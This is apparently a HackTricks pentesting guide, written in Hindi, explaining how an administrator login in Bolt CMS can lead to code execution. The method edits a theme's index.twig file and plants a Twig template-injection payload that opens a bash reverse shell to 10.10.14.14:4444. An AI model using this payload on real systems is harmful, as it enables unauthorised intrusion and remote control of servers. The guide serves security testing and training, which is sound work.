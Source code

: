 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

प्रशासक के रूप में लॉगिन करने के बाद (लॉगिन प्रॉम्प्ट तक पहुँचने के लिए /bot पर जाएँ), आप Bolt CMS में RCE प्राप्त कर सकते हैं:

- `Configuration` -> `View Configuration` -> `Main Configuration` चुनें या URL पथ `/bolt/file-edit/config?file=/bolt/config.yaml` पर जाएँ
- थीम का मान जांचें

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- `File management` -> `View & edit templates` चुनें
- पिछले चरण में पाए गए थीम बेस (इस मामले में `base-2021`) का चयन करें और `index.twig` चुनें
- मेरे मामले में यह URL पथ /bolt/file-edit/themes?file=/base-2021/index.twig में है
- इस फ़ाइल में अपने पेलोड को [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php) के माध्यम से सेट करें, जैसे: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- और परिवर्तनों को सहेजें

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- `Maintenance` -> `Clear the cache` में कैश साफ़ करें
- फिर से एक सामान्य उपयोगकर्ता के रूप में पृष्ठ तक पहुँचें, और पेलोड निष्पादित होना चाहिए

{{#include ../../banners/hacktricks-training.md}}
